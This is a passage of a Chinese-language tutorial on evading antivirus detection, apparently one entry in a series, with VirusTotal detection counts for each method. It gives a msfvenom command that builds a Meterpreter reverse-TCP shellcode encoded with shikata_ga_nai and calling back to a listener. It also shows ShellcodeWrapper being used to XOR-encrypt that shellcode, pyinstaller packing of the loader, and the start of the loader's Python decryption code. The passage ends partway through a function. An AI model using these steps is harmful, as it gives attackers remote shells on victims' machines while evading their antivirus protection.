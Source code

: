 使用 pyinstaller 编译打包 exe，生成文件大小 3.4M

```
python pyinstaller.py -F -w pyshellcode.py
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIb0ZDFYtPwmq1dOdMRYQicluvsQtWA5upUiaicJ16HWEFicSIFd4LQoNibcmg/640?wx_fmt=png)  

virustotal.com 中 18/69 个报毒

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbwVFUicicYNw1I6RVSySs6yXm6BoqkBNajtfufCSCvNzk6JBdv8wLFdHw/640?wx_fmt=png)  

2.5 方法 5：xor 加密 (VT 免杀率 19/71)
------------------------------

这个和专题 27 中的方法 6 一样，需要使用一个工具`[https://github.com/Arno0x/ShellcodeWrapper](https://github.com/Arno0x/ShellcodeWrapper)`

先用 msfvenom 生成一个 raw 格式的 shellcode

```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`tidesec`为自己设置的 key。

```
python shellcode_encoder.py -cpp -cs -py shellcode.raw tidesec xor
```

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIbiakliaIiafaMG9xIBugYUgwYy6S2T7akGcTCKHzPAq7IcAIlntXH6poHA/640?wx_fmt=png)  

生成了三个文件，有一个 py 文件，也是我们要用到的。

其中`encryptedShellcodeWrapper_xor.py`文件中的 python 源码如下

```
#!/usr/bin/python
# -*- coding: utf8 -*-
# Author: Arno0x0x, Twitter: @Arno0x0x
#
# You can create a windows executable: pyinstaller --onefile --noconsole multibyteEncodedShellcode.py
from Crypto.Cipher import AES
from ctypes import *
import base64

# data as a bytearray
# key as a string
def xor(data, key):
    l = len(key)
    keyAsInt = map(ord, key)
    return bytes(bytearray((
        (data[i] ^ keyAsInt[i % l]) for i in range(0,len(data))
    )))

#------------------------------------------------------------------------
def unpad(s):
    """PKCS7 padding removal"""
    return s[:-ord(s[len(s)-1:])]

#------------------------------------------------------------------------
def aesDecrypt(cipherText, key):
    """Decrypt data with the provided key"""

    # Initialization Vector is in the first 16 bytes
    iv = cipherText[:AES.block_size]

```